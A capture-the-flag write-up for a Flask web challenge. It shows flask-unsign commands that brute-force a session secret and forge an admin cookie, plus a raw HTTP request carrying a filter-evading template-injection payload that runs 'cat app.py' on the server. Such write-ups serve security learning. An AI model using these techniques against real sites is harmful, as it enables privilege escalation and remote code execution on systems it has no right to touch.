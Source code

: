 # Father's Light
> Enter the enigmatic realm of "Father of Light" Unleash your skills, explore hidden paths, and uncover the depths of mysterious creations. Will you emerge as the champion? Dare to unravel the enigma.

## About the Challenge
We have been given a website (Without source code) and there is a login page in this website

![preview](images/preview.png)

## How to Solve?
If you check the HTTP response header, this website using Python and Werkzeug.

![header](images/header.png)

And now I tried to make the website error to know what is the response. In this case I made the website error by removing `password` parameter when hitting `/login` endpoint

![error](images/error.png)

Hmmm there is an interesting code here especially in the `elif` part. Lets try to login using `admin:password` credential

![user](images/user.png)

Yay, we can login but as an `user`? Let's check the cookie value

![cookie](images/cookie.png)

This website was using flask for Session-based auth. And because of this website using flask, we can bruteforce the secret key and changed the value of the cookie.

```bash
root@root:~$ flask-unsign --unsign --cookie ".eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM5ITg.NrGKbBGCkxPIk0iQLQE2Cuc2cGc" --wordlist /home/daffainfo/tools/rockyou.txt  --no-literal-eval
[*] Session decodes to: {'is_admin': False, 'user_id': '162', 'username': 'admin'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 30080 attempts
b'amorlove'
```

We got `amorlove`. And now tried to change the value of `is_admin` from `False` to `True`. Sign the cookie again using `flask-unsign`

```bash
root@root:~$ flask-unsign --sign --cookie "{'is_admin': True, 'user_id': '162', 'username': 'admin'" --secret 'amo
rlove'
.eJxTqlbPLI5PTMnNzFO3UggpKk3VUVAvLU4tis9MAQqoG5oZqUNF8hJzU0FCEMVKABlZEb0.ZM5KNg.PfOTwsnj9w7TxbSPYtQDuLg9lJQ
```

Use the cookie to access `/user` endpoint again and as you can see the the privilege was changed from `user` to `admin`. Now go to `/dashboard` and you will find another form that vulnerable SSTI. In the end the payload was something like this

```
POST /POST HTTP/1.1
Host: 34.18.3.149:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://34.18.3.149:5000
Connection: close
Referer: http://34.18.3.149:5000/dashboard
Cookie: session=eyJpc19hZG1pbiI6dHJ1ZSwidXNlcl9pZCI6IjEiLCJ1c2VybmFtZSI6ImRkZGQifQ.ZM2u4A.rbYhmXmWZmjpdzXAIQH6pb5EFfk
Upgrade-Insecure-Requests: 1

name={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']['po''pen']('cat+app.py')['re''ad']()}}&email=test%40mail.com&post_content=test
```

> There is no screenshot for this part because the website was down

```
ASCWG{H0la_H@Ck3r5_Th1s_a_S3m6le_55TI}
```
